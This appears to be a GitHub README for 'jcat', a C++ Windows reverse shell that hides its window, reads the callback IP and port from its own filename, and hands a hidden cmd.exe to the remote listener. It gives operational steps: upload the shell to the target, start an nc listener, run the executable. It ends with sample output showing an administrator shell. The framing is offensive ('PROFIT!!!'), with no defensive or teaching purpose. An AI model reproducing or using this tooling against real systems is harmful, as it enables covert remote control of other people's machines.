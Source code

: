# jcat Reverse Shell

This repository contains my C++ reverse shell that runs in the background without displaying a window. The program connects to a specified IP and port extracted from the executable's filename, providing a remote shell interface.

---

## 📋 Features
- **Stealth:** Runs in the background without opening a window.
- **Dynamic Configuration:** The IP address and port are encoded in the executable name, enabling customizable deployment.
- **Compact Implementation:** Uses native Windows APIs and WinSock for networking.
- **Small Size:** ~200kb.

---

## 🚀 How It Works
The executable name encodes the IP and port in the format:
- `jcat_<IP>_<PORT>.exe`
- `jcat_192.168.1.100_4444.exe`
- `jcat_192.168.1.121_80.exe`

The program parses the IP and port from its name and establishes a reverse connection to the remote server. Once connected, it spawns a hidden `cmd.exe` process, redirecting its input, output, and error streams to the socket.

---

## 🧑‍💻 Usage
1. upload the shell to the target machine
2. start a listener:
   ```bash
   nc -lvnp 80
3. execute the shell:
   ```bash
   jcat_172.16.1.129_80.exe
4. PROFIT!!!:
```bash
listening on [any] 80 ...
connect to [172.16.1.129] from (UNKNOWN) [172.16.1.131] 60507
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>whoami
whoami
tech\administrator

C:\Users\Administrator\Desktop>

